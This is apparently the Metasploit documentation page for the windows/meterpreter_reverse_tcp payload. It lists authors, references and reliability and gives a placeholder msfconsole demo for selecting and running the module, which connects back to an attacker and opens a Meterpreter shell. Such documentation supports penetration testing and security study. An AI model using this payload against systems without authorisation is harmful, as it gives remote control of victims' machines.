 ## Windows Meterpreter Shell, Reverse TCP Inline

Connect back to attacker and spawn a Meterpreter shell


## Module Name
payload/windows/meterpreter_reverse_tcp

## Authors
* OJ Reeves
* sf


## References
* https://github.com/stephenfewer/ReflectiveDLLInjection
* https://github.com/rapid7/ReflectiveDLLInjection




## Platforms
* win

## Reliability
[Normal](https://github.com/rapid7/metasploit-framework/wiki/Exploit-Ranking)

## Demo

```
msf > use payload/windows/meterpreter_reverse_tcp
msf payload(meterpreter_reverse_tcp) > show targets
   ... a list of targets ...
msf payload(meterpreter_reverse_tcp) > set TARGET <target-id>
msf payload(meterpreter_reverse_tcp) > show options
   ... show and set options ...
msf payload(meterpreter_reverse_tcp) > run
```
    
    